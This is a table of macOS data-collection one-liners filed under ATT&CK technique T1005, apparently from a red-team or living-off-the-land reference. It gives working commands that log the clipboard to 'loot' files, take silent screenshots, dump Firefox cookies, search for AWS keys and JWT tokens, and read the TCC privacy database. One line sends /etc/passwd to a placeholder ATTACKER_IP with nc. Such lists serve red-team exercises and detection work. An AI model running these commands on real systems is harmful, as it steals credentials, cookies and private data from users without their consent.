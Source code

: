 ## T1005 - Data from Local System

**Source: TBD**

| Description | Command |
|-------------|---------|
| Use pbpaste to collect sensitive clipboard data | `while true; do echo $(pbpaste) >> loot.txt; sleep 10; done` |
| Use the osascript binary to gather sensitive clipboard data | `while true; do echo $(osascript -e 'return (the clipboard)') >> clipdata.txt; sleep 10; done` |
| Use the osascript binary to gather system information | `osascript -e 'return (system info)'` |
| Continously capture screenshots | `while true; do ts=$(date +"%Y%m%d-%H%M%S"); o="/tmp/screenshots"; screencapture -x "$o/ss-$ts.png"; sleep 10; done` |
| Copy and compress sensitive data locally | `ditto -c -k --sequesterRsrc --keepParent /home/user/sensitive-files /tmp/l00t.zip` |
| Copy and compress sensitive data locally | `dd if=/etc/passwd | streamzip - stream | nc ATTACKER_IP PORT` |
| Iterate through a directory to GetFileInfo | `for FILE in ~/Downloads/*; do echo $(GetFileInfo $FILE) >> fileinfo.txt; sleep 2; done` |
| Use mdfind to provide live updates to the number of files matching the query | `mdfind -live passw` |
| Use mdfind to search for AWS Keys | `mdfind 'kMDItemTextContent == AKIA || kMDItemDisplayName = *AKIA* -onlyin ~'` |
| Export local host users | `dsexport local_users.txt /Local/Default dsRecTypeStandard:Users` |
| Export local host groups | `dsexport local_groups.txt /Local/Default dsRecTypeStandard:Groups` |
| Get apps with Full Disk access | `sqlite3 /Library/Application\ Support/com.apple.TCC/TCC.db 'select client from access where auth_value and service = "kTCCServiceSystemPolicyAllFiles"'` |
| Get Firefox cookie data | `killall firefox; find ~/Library/Application\ Support/Firefox/Profiles/. | grep cookies.sqlite | xargs -I {} sqlite3 {} "select * from moz_cookies"` |
| View URL associated with file downloads | `sqlite3 ~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV* 'select LSQuarantineDataURLString from LSQuarantineEvent'` |
| Enumerate the users who are currently logged into the system. | `last | grep "still logged in"` |
| Enumerate all user accounts that have logged into the system previously. | `last -t console` |
| Enumerate all hosts that have remotely logged into the system before. | `last | grep -E '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+'` |
| Validate file download information | `mdls -name "kMDItemWhereFroms" -name "kMDItemDownloadedDate"` |
| Query File Paths | `xargs -0 mdls -n kMDItemPath -n kMDItemFSSize` |
| Display Login Items | `sfltool dumpbtm` |
| Search log messages for tokens | `log show --info --debug --predicate 'eventMessage CONTAINS[d] "eyJ"'` |
| Use the textutil to read several files and build a new file | `textutil -convert html Quote.doc secondQuote.doc` |
| Capture clipboard content | `pbpaste | textutil -stdin -info > Clipboard.txt` |
| Read sensitive data | `say -f /home/user/sensitive-files -i  > loot.txt;` |
| Collect clipboard data | `osascript -e 'set volume output muted true' ;   say $(pbpaste) -i  > loot.txt;` |
| Restore a backup | `tmutil restore /path/to/backup` |
| Listing the available node names | `odutil show nodenames` |
| Retrieves active session | `odutil show sessions` |
| Retrieves "Default search policy" | `odutil show configuration /Search` |
| Retrieves "Contact search policy" | `odutil show configuration /Contacts` |
